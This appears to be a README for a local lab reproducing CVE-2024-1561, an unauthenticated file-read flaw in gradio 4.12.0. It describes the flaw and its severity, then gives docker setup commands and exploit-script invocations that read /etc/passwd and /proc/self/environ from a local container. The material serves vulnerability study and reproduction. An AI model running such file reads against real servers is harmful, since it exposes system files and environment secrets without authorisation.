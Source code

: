 # gradio 4.12.0 LFI Demo - CVE-2024-1561
Report: https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338
Resources:
   - https://github.com/gradio-app/gradio/tree/gradio%404.12.0


## Overview
### Description
This is a vulnerability in the `gradio` package that allows an attacker to read arbitrary files on the system by sending a crafted HTTP request to the server.

The [`move_resource_to_block_cache()`](https://github.com/gradio-app/gradio/blob/227221f88755240798ca2071bd1a0d165f5a82e7/gradio/processing_utils.py#L228) is used to move a resource to the cache.

### CVE Rating

This vulnerability has been rated as a `High` severity issue because of the following factors:

  - The vulnerability allows an attacker to read arbitrary files on the system.
  - The vulnerability can be exploited remotely by sending a crafted HTTP request to the server.
  - The vulnerability can be exploited without authentication.


## Commands
### Terminal 1 - Service
```bash
docker build -t gradio-lfi-demo:4.12.0 --no-cache .
docker run -it -v ./app.py:/app/app.py -p 7860:7860 gradio-lfi-demo:4.12.0
```

### Terminal 2 - Attack
```bash
python exploit.py --server="127.0.0.1" --port="7860" --target_file="/etc/passwd"
```

**Additionally:**

```bash
python exploit.py --server="127.0.0.1" --port="7860" --target_file=/proc/self/environ
```

